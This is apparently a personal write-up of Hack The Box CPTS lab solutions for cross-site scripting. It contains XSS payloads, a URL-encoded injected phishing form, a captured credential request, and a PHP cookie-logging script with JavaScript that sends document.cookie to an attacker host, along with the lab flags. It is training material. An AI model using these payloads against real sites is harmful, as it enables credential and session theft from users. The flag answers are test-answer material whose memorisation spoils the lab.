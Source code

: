 ```yaml
---
title: CPTS labs - 18 Cross-Site Scripting XSS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 18 Cross-Site Scripting XSS
## [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103)

### XSS Basics

####  Stored XSS


**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```
<script>alert(document.cookie)</script>
```

Results:  HTB{570r3d_f0r_3v3ry0n3_70_533}


####  Reflected XSS


**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```
http://83.136.253.163:57837/index.php?task=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Results: HTB{r3fl3c73d_b4ck_2_m3}

####  DOM XSS

 To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.
 
```
# Enter <img src="" onerror=alert(document.cookie)>
```

Results: 


####  XSS Discovery

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

```
# Enter http://$ip:$port/?fullname=lolo&username=lala&password=lalala&email=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Results: email


**What type of XSS was found on the above server? "name only"**

Results:  Reflected

### XSS Attacks

#### Phishing 

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

Creating a valid payload in http://10.129.148.221/phishing/index.php?url= This would be the payload:

```
\`/'</script/--!><h3>Please login to continue</h3><form action=http://10.10.14.198>    <input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>
```

This would be the link generated:

```
http://10.129.148.221/phishing/index.php?url=%5C%60%2F%27%3C%2Fscript%2F--%21%3E%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.198%3E++++%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E

```

Starting a netcat listener:

```
sudo nc -lvnp 80
```

Visiting http://10.129.148.221/phishing/send.php and entering the link generated.

In the netcat  listener we obtain:

```
listening on [any] 80 ...
connect to [10.10.14.198] from (UNKNOWN) [10.129.148.221] 46802
GET /?username=admin&password=p1zd0nt57341myp455&submit=Login HTTP/1.1
Host: 10.10.14.198
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: HTBXSS/1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.148.221/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

We use the creds for accessing to /phishing/login.php and grabbing the flag

Results: HTB{r3f13c73d_cr3d5_84ck_2_m3}

#### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

Create a file index.php in the attacker machine:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Have a php server listening:

```bash
sudo php -S 0.0.0.0:80
```


Enter $ip/hijacking and enter this payload in every field. Use the field name (username, name, surname...) as `<custom.name>` when different payloads:

```html
<script>document.location=%27http://attackerIP/index.php?c=%27+document.cookie</script>
```



If successful, you will see a connection in your php server like this:

![xss blind](img/xss_blind_00.png)

Then, `profile` would be the vulnerable input (parameter `imgurl`). The URL:

```
http://VICTIMIP/hijacking/?fullname=Lala%20lalasurname%2Ffullname%3C%2Fscript%3E&username=%22%3E%3Cscript+src%3Dhttp%3A%2F%2FAttackerIP%2Fusername%3C%2Fscript%3E&password=lala&email=lala%40gmail.com&imgurl=%22%3E%3Cscript%20src=%22http://AttackerIP/lala.js%22%3E%3C/script%3E
```

Beside the index.php, have a lala.js in your php server:

```js
new Image().src='http://attackerIP/index.php?c='+document.cookie
```

Run your php server:

```bash
sudo php -S 0.0.0.0:80
```

Now, we can change the URL in the XSS payload we found earlier to use `lala.js`. For instance:

```html
<script src=http://attackerIP/lala.js></script>
```

You will log the following activity in your php server:

![xss blind](img/xss_blind_02.png)


Results:  HTB{4lw4y5_53cur3_y0ur_c00k135}


### XSS Prevention

####  Skills Assessment


**What is the value of the 'flag' cookie?**

Enter payload in all form fields. The vulnerable one is `website` with the payload

```html
<script src='http://attackerIP/website'></script>
```

I have a php server running, with this index.php:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

I know that it is the parameter `webserver` because of this:

![xss_blind_01](img/xss_blind_01.png)

Now, I have also this file lala.js in my server:

```
<script src='http://attackerIP/lala.js'></script>
```

And in my php server:

![xss_blind_03](img/xss_blind_03.png)

Results:  HTB{cr055_5173_5cr1p71n6_n1nj4}


